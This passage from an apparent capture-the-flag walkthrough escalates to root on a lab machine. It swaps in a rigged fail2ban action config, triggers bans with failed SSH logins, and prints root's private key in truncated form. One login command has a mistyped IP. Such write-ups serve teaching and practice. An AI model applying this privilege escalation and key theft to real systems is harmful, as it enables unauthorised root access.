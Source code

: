 ```bash
rm /etc/fail2ban/action.d/iptables-multiport.conf -f
cp /tmp/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```

Since the `sshd` jail is the only one running, we need to fail ssh authentications to trigger it. To do this, just run the below 6 or 7 times on your local machine (just provide blank passwords to fail as quickly as possible):

```
ssh root@10.10.11.166
```

Now i we run this in our SSH session

```bash
cat /tmp/test
```

we should get something like this back

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
[...]
7VT/uoy+BKbanLzM809KCnuLCM7LDISk4N/S79xiuFlrk11MrV2qaxZANiYEkOd1jKRGPi
UDRYRn2lPX7WiLyrGQAAAApyb290QHRyaWNrAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

Now just save this to your local machine (I called mine `root_id_rsa`), run the same `chmod` command as earlier, and log in using ssh and the private key, like this

```bash
ssh -i root_id_rsa root@10.10.166
```

now if you run

```bash
cat root.txt
```

you'll get the root flag!
